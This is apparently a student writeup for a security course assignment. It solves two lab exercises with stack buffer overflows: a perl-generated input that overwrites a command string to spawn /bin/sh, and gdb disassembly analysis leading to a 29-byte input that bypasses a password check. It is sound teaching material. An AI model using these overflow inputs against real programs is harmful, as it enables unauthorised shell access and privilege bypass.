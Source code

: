 +++
title = "Writeup for assignment 4"
date = 2020-06-03
summary = "Solutions and explanations for assignment 4"

draft = true
toc = true
type = "docs"

highlight = true
highlight_languages = ["c", "makefile", "shell", "plaintext"]

authors= [
"denisa",
]

[menu.hic2020]
name = "Writeup Assignment 4"
parent = "Assignments"

#weight = 30
+++

## Exercise 1: Simple buffer overflow. Overwrite string
For this exercise we have to give an input to the program such that it executes `/bin/sh` instead of `/bin/ls`. By looking at the code we observe the following:
* `strcpy(buffer, argv[1]);` copies the first argument of the program into the variable `buffer[100]` without specifying the maximum number of bytes to be copied (in this case 100) ==> the buffer can be overflowed
* we observe that the variable `command[10]` which contains the actual command that is run by the program is declared before the variable `buffer[100]`. This means that most likely the content of `command` will follow the content of the `buffer` in the stack.

Therefore, the stack would look like this:
```plaintext
+---------------------------+ higher addresses
| ...                       |
+---------------------------+
| return address            |
+---------------------------+ |
| base pointer              | | stack growth
+---------------------------+ |
| command[10]               | |
+---------------------------+ V
| alignment padding (maybe) |
+---------------------------+
|buffer[100]                |
+---------------------------+ lower addresses
```

It is now clear that we need to write at least 100 characters to overwrite the buffer and we need to check if there is any padding between the the buffer location and the command location. We do this by providing input longer than 100 and observe how the output is affected. 

Turns out the padding is 2 bytes and an input that spawns a shell is:
```sh
./buffer $(perl -e 'print "a"x102 . "/bin/sh"')
```

## Exercise 2: bypass password verification with gdb 

## I. The normal version
In this exercise we need to figure out what a program does without having the source code. We will use gdb for this, and the first step will be to mark the downloaded file as executable to be able to run it inside gdb: `chmod +x pwd-normal` 

a) We start gdb, then load our program and start it in debugging mode using the following commands:
```sh
$gdb
...
(gdb) file pwd-normal 
Reading symbols from pwd-normal...
(gdb) start
Temporary breakpoint 1 at 0x401c4e: file main.c, line 20.
```
Note that after the `start` command a temporary break point is set automatically at the beginning of the function `main`.

### Information gathering
* we can run the program (by writing `continue` inside gdb) and get a high level intuition about what it is doing. We are required a password and by introducing a random one, the program terminates with the message: Wrong password. (to run it again, write `start`) 
* by restarting the program and running the command `(gdb) info variables` we find out that the main function contains 3 variables:
```C
buf = "`f@\000\000\000\000\000\000g@\000\000\000\000\000\000\000\000"
ok = 0
i = 4890648
```
We observe that `buf` is an array of 19 bytes. (\000 is 1 byte).
* we can now take a look inside the "main" function by typing `(gdb) disassemble main`. Depending on the preference, before running this command we could set the assembly style from att (default) to intel: `(gdb) set disassembly-flavor intel`. Here we can search for the `call` instructions to get information over the functions called from within `main`: printf, gets, sha256, hash_equals, puts.

### Disassemble main
Below we can see the disassembled code for the `main` function. The comments on the right side describe what the instructions accomplish. If you are not so familiar with assembly, you could use the `step` and `ni` command (see gdb documentation) to take one step at a time. Then you could immediately check the values of the local variables (`info locals`) and observe if any of them changed and try to see why. You could also set breakpoints in the code, then by pressing `continue` the execution will stop at that particular point. In order to set breakpoints we use the command `b *address`, where for this particular example the address is the long number that begins with 0x in front of an instruction (below it is omitted).
Another useful gdb command is `x/s address` which help us read strings from a specific memory location. For example, here we can see the location of the string "You're root!"


```assembly
Dump of assembler code for function main:
...46 <+0>: push rbp
...47 <+1>: mov rbp,rsp
...4a <+4>: sub rsp,0x20                                    |->allocate 32 bytes on the stack
...4e <+8>: mov DWORD PTR [rbp-0x4],0x0                     |-> set ok and i to 0 
...55 <+15>: mov DWORD PTR [rbp-0x8],0x0                   _|_
...5c <+22>: jmp 0x401c6c <main+38>                         |
...5e <+24>: mov eax,DWORD PTR [rbp-0x8]                    |
...61 <+27>: cdqe                                           |
=> ...63 <+29>: mov BYTE PTR [rbp+rax*1-0x20],0x0           |-> for i=0 to 19 
...68 <+34>: add DWORD PTR [rbp-0x8],0x1                    | buf[i] = 0
...6c <+38>: cmp DWORD PTR [rbp-0x8],0x13                   |
...70 <+42>: jle 0x401c5e <main+24>                        _|_
...72 <+44>: lea rdi,[rip+0x803c7] # 0x482040               |->printf("Please enter your password")
...79 <+51>: mov eax,0x0                                    |
...7e <+56>: call 0x40c880 <printf>                        _|_ 
...83 <+61>: lea rax,[rbp-0x20]                             |-> load in rax the address of buffer
...87 <+65>: mov rdi,rax                                    |
...8a <+68>: mov eax,0x0                                    |
...8f <+73>: call 0x40d380 <gets>                          _|_-> read password into buffer
...94 <+78>: lea rax,[rbp-0x20] |-> rax = buffer address
...98 <+82>: mov edx,0x14 |-> edx = 20 (size of buffer +1)
...9d <+87>: mov rsi,rax |-> rsi = buffer address 
...a0 <+90>: lea rdi,[rip+0xaa659] # 0x4ac300 <hash>
...a7 <+97>: call 0x40573a <sha256> _|_->compute hash of password and put it into address 0x4ac300 <hash>
...ac <+102>: lea rsi,[rip+0x8036d] # 0x482020 <okhash> | 
...b3 <+109>: lea rdi,[rip+0xaa646] # 0x4ac300 <hash> |-> compare computed hash with correct hash
...ba <+116>: call 0x401bf5 <hash_equals> _|_ and return result
...bf <+121>: test eax,eax |-> if result of hash_equals is not 0 
...c1 <+123>: je 0x401cca <main+132> | ok == 1 
...c3 <+125>: mov DWORD PTR [rbp-0x4],0x1 | if ok ==0 
...ca <+132>: cmp DWORD PTR [rbp-0x4],0x0 | then print wrong pass and exit # 0x48206a
...ce <+136>: je 0x401cde <main+152> | else 
...d0 <+138>: lea rdi,[rip+0x80386] # 0x48205d | print You're root! # 0x48205d
...d7 <+145>: call 0x40d4f0 <puts> |
...dc <+150>: jmp 0x401cea <main+164> |
...de <+152>: lea rdi,[rip+0x80385] # 0x48206a | 
...e5 <+159>: call 0x40d4f0 <puts> _|_
...ea <+164>: mov eax,0x0
...ef <+169>: leave 
...f0 <+170>: ret 
```

b) From line <+4>: in the disassembled main, we know that there were allocated 32 bytes for the stack. We also know that the buffer address is the same as the the stack pointer. What we also see is that the `ok` variable is situated next to the base pointer and it has 4 bytes (see line <+8> and <+132> ). Therefore we need 32-4+1=29 characters to overwrite the variable `ok` with a non-zero value, such that the verification from line <+132> becomes true and the message "You're root!" is obtained. An input that bypasses the password is `aaaabbbbccccddddeeeeffffggggh`. 

## II. The hard version
In the hard version of the exercise there is no information about the program variables. Therefore the command `info variables` does not offer anything. The approach for this version is to disassemble the `main` function just like before and analyze the assembly line by line. We can still see the function names and look into the memory for strings (with `x/s address`) which gives us an intuition of the program flow. Here, even if we do not have the variable names we can see that at the top of the stack (position `rbp-0x20`)there is a buffer of size 19 (see lines <+22>: to <+42>:) that is updated byte by byte. We can also see that depending on the value of the variable situated at the position `rbp-0x4` we become root or not (if the value is non zero). Following the same logic as before, we can deduce that a 29-byte input will get us to root. 


